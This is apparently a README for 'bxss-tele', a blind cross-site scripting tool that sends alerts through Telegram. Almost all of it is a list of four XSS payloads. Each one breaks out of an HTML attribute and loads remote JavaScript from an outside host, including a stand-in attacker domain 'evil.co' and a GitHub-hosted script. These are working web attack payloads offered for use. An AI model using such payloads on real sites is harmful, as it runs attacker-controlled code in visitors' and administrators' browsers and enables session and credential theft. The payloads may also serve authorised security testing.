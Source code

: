# bxss-tele
Blind XSS Alert Telegram

# Payloads
```"><script src="http://evil.co/telexa.js"></script>``` \
```"><script src=http://user.github.io/txa.js></script>``` \
```"><script src="https://raw.githubusercontent.com/username/bxss-tele/master/bxss.js">``` \
```"><script>$.getScript("//evil.co/txa.js")</script>```
